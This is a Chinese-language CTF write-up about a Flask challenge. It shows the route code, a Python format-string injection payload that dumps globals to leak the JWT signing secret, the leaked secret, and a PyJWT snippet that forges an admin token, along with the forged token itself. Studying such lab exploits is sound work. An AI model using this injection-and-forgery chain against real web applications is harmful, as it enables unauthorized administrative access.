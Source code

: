 ```python
    # 尝试从cookie中获取'token'
    token = request.cookies.get('token')
    
    # 如果没有找到token，则重定向到首页
    if not token:
        return redirect('/', 302)
    
    try:
        # 解码token，如果签名无效则抛出异常
        name = jwt.decode(token, secret, algorithms=['HS256'])['name']
    except jwt.exceptions.InvalidSignatureError as e:
        return "Invalid token"
    
    # 如果解码后的名字不是'admin'，则根据名字创建User对象，并准备消息
    if name != "admin":
        user = User(name)
        flag = request.args.get('flag') or ''
        message = "Hello {0}, your flag is" + flag
        return message.format(user)
    else:
        # 如果是'admin'，渲染包含flag的页面
        return render_template('flag.html', name=name)

if __name__ == "__main__":
    app.run()
```

所以先在根域名下通过name生成一串cookie，再进入hello，用flag注入

payload

```
{0.__class__.__init__.__globals__}
```

找到密钥

```
u_have_kn0w_what_f0rmat_i5
```

python中伪造一个cookie

需要注意的是，pip应该安装PyJWT而不是jwt，在这被坑了

```
pip install PyJWT

import jwt

jwt.encode({"name":"admin"}, "u_have_kn0w_what_f0rmat_i5", algorithm='HS256', headers={"alg": "HS256","typ": "JWT"})
```

得到`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4ifQ.jlAcmWWxtmNLxbxwfRE45Fxf16dX6LQmrK_1dgx7zmg`

从而获得flag

这个题和LitCTF2023 WEEK3ssti十分类似